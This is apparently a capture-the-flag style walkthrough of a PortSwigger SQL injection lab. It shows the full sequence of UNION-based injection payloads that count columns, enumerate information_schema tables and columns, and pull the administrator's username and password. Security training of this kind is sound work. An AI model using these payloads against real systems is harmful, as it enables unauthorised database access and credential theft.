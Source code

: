 ## [Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

### Steps

1. **Access the Lab**  
   - Navigate to the lab and click the "Accessories" category. This sends a request:  
     `GET /filter?category=Accessories`.

2. **Set Up Burp Suite**  
   - Open Burp Suite Community Edition and configure it to intercept browser requests.  
   - Capture the `GET /filter?category=Accessories` request for manipulation.

3. **Determine Number of Columns**  
   - Test the number of columns using `ORDER BY`:  
     - `category=Accessories' ORDER BY 1--`: 200 OK.  
     - `category=Accessories' ORDER BY 2--`: 200 OK.  
     - `category=Accessories' ORDER BY 3--`: 500 Error.  
   - **Result**: The query has 2 columns.

4. **Determine Column Data Types**  
   - Use `UNION SELECT` to test which columns accept string or NULL values:  
     - `category=Accessories' UNION SELECT 'a','a'--`: 200 OK.  
     - `category=Accessories' UNION SELECT 'a',NULL--`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,'a'--`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,NULL--`: 200 OK.  
   - **Result**: Both columns accept string or NULL values.

5. **List All Table Names**  
   - Query the `information_schema.tables` to retrieve table names:  
     - `category=Accessories' UNION SELECT table_name, NULL FROM information_schema.tables--`.  
   - **Result**: Identifies the table `users_diivsh`.

6. **List Column Names for the Table**  
   - Query `information_schema.columns` for columns in `users_diivsh`:  
     - `category=Accessories' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_diivsh'--`.  
   - **Result**: Finds columns `username_bgrkmu` and `password_ynsimc`.

7. **Retrieve Username and Password**  
   - Extract data from the `users_diivsh` table:  
     - `category=Accessories' UNION SELECT username_bgrkmu, password_ynsimc FROM users_diivsh--`.  
   - **Result**: Returns credentials:  
     - Username: `administrator`  
     - Password: `vy7vsqslonb4adqfd8x1`

8. **Login and Solve the Lab**  
   - Use the credentials (`administrator` / `vy7vsqslonb4adqfd8x1`) to log in via the lab’s login page.  
   - Upon successful login, the lab displays a "Congratulations" message.
